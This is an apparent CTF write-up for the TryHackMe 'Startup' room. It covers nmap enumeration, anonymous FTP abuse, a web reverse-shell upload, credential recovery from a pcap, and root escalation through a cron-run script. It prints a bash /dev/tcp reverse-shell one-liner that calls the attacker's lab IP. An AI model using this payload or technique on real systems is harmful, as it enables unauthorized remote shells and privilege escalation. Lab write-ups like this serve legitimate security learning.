 # Startup

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/98d1e206f2d58494b67a1a52c0f8d244.png)

## Difficulty = Easy

***

Running our nmap scan we have 3 ports opened -:

```bash
# Nmap 7.94 scan initiated Fri Oct 20 01:25:57 2023 as: nmap -p80,21,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.102.105
Nmap scan report for 10.10.102.105
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 01:26:17 2023 -- 1 IP address (1 host up) scanned in 19.40 seconds
```





Enumerating `FTP`, we have anonymous login enabled 🤟



![](https://i.imgur.com/vFnDBy0.png)




We can therefore use this command to download all files on the server


```bash
$ wget -m --no-passive ftp://anonymous:anonymous@10.10.102.105
```


Checking the files the only thing that gives us important information is `notice.txt`, which gives us a username called, **Maya**.


![](https://i.imgur.com/sci7wME.png)


Navigating to port `80/HTTP` we have a prompt telling us **"we'll be online shortly"**


![](https://i.imgur.com/5KvZHlz.png)

Viewing **Page-Source** nothing seems interesting here also

![](https://i.imgur.com/dShkQ7w.png)

Running dir/file bruteforce, we found a directory called `/files`

![](https://i.imgur.com/Wd4nkAB.png)


Navigating to `/files` we can see that all what we found in the **FTP** directory is still here


![](https://i.imgur.com/naVQJ99.png)


Well, we forgot to check if we can put files in the FTP directory


![](https://i.imgur.com/Shtfjiq.png)


Nice we can put files, but it is directory specific !, Meaning we can not put files on the base folder, but we can put files in an already created folder called `FTP`

![](https://i.pinimg.com/originals/39/73/c8/3973c89b972c2bf387065fc702643270.gif)


Now let upload our reverse shell and navigate to the website


![](https://i.imgur.com/ZdXTYXA.png)


Nice, our reverse shell have been uploaded


![](https://i.imgur.com/1csTG8g.png)


Now start up your listener and get your reverse shell back


![](https://i.imgur.com/onBG5Zo.png)

Navigating to the base folder `/` we have a `recipe.txt` file

![](https://i.imgur.com/2GJfC0W.png)

well we now know the **secret spicy soup recipe**, you can go ahead and answer the question

![](https://i.imgur.com/zEYnUBs.png)


We also have an **incidents** folder, that contains a `suspicious.pcapng` file

![](https://i.imgur.com/SRvdhCO.png)

Transfer the file to our target system and upload it to `wireshark`



![](https://i.imgur.com/Ecf2cFU.png)

On **wireshark** right-click on a packet and select **Follow >> Tcp Stream**


![](https://i.imgur.com/bZ0xPE3.png)


Keep Increasing the **stream** till we find important information (Just check stream 7 😂)


![](https://i.imgur.com/akNaViG.png)


We successfully have a password


![](https://i.imgur.com/oILcFdJ.png)

We can then login as user **lennie**


![](https://i.imgur.com/yYTJA5D.png)

Navigating to **lennie's** home directory we have a `script` folder

![](https://i.imgur.com/QWjrG3g.png)



The script folder has a `planner.sh` file

![](https://i.imgur.com/mE0AYYO.png)

Concatenating the `planner.sh` file, it also calls another file under `/etc` called `print.sh`

![](https://i.imgur.com/Wmf4tcd.png)

Looks like the `/etc/print.sh` file belongs to **lennie** and the `planner.sh` file belongs to user **root**, we can therefore upload our reverse shell here and get root

![](https://i.imgur.com/5bOSiiG.png)


By adding this payload to `/etc/print.sh` and then starting up our listener we can get our reverse shell


```bash
/bin/sh -i >& /dev/tcp/10.9.75.133/1337 0>&1
```


![](https://i.imgur.com/ynDr4fP.png)


Then start up your reverse shell using `netcat` and you should be root

![](https://i.imgur.com/OPuK6GJ.png)


> **_Note :_** Generally i ran `pspy32s` in other to know that the **planner.sh** script was running as a cronjob

Have fun 😁😎




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



